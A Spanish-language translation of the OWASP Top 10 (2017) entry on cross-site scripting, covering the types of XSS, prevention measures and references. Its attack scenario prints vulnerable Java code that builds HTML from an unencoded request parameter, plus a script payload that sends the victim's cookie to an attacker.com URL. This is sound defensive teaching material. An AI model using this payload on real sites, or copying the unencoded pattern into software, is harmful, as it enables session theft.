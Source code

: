 # A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de amenaza/Vectores de ataque | Debilidades de seguridad         |      Impactos       |
| -- | -- | -- |
| Nivel de acceso : Explotabilidad 3    | Prevalencia 3 : Detectabilidad 3 | Técnico 2 : Negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿Soy vulnetable a XSS?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

* **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no existe un cabezal que establezca la política de seguridad de contenido ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
* **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
* **XSS Basados en DOM**: Frameworks en JavaScript, aplicaciones de página única o APIs que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

* Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
* Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) tiene detalles de las técnicas de codificación de datos requeridas.
* Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario #1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

**Note**: Atacantes pueden también utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

* [OWASP Proactive Controls - #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls - #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### Externas

* [CWE-79 Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
